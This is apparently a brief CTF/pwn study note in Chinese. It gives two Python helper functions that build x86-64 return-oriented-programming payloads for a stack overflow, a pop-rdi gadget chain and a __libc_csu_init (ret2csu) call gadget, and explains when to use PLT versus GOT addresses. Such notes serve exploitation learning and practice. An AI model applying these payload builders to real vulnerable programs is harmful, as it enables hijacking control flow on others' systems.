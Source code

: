 ###
Tips:
```
*1
def gadget_arg1(func_addr, arg):
    payload = overwrite
    payload += p64(poprdiret_addr)
    payload += p64(arg)
    payload += p64(func_addr)
    payload += p64(vulnfunc_addr)
    return payload
*2
def gadget_call(func_addr, arg1=0, arg2=0, arg3=0, init_ret1=movcall_addr, init_ret2=vulnfunc_addr):
    payload = overwrite
    payload += p64(pop5ret_addr)
    payload += p64(0)   # rbx
    payload += p64(1)   # rbp
    payload += p64(func_addr)
    payload += p64(arg3) + p64(arg2) + p64(arg1)
    payload += p64(init_ret1)    # call 
    payload += '\x00'*(7*0x8)       # pop7
    payload += p64(init_ret2)   # 最后返回到有漏洞的地方下次再次利用
    return payload
```

注意上面这两个函数。
1最后是ret左右func_addr应该是plt段的函数地址，
例如.plt [puts] = 0x400500 
调用的时候是rip先到0x400500(这里的指令对应jmp 0x7???????)然后跳到该函数真正地址
但是如果ret 0x601018(这是got表 里面存的是真正的函数地址的值) 就会执行0x601018这个地址对应的值(转换成code)

2是call func_addr, 所以必须是got的地址
.got[read] = 0x601028
调用的时候是call 0x601028(call的是真正的函数的地址 比如call 0x7ff????????)
但是如果用ret 就会ret到0x601028 rip指向0x601028 明显不是真正func_addr的地址

所以 总结来说就是
ret 后面必须是 .plt
__libc_init 里用call来必须是 .got的


